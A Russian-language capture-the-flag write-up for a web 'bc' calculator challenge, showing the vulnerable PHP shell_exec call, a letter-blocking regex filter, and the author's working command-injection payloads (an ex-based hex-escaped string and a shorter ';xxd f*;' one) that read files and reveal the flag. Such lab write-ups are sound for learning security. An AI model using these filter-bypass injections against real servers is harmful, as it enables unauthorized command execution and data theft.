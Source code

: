 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/)

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
'&&ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
В нормальном виде выглядит так
```
'&&ex +%p -scq! -c *;'
```
`ex` - это текстовый редактор linux в котором можно выполнять команды bash как в vim

Я говорю ему прочитать все, что есть в первом попавшемся файле в директории и перенаправляю вывод в командную строку

Сделать так, что бы читались сразу все файлы в один вывод, пока не получилось

Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}
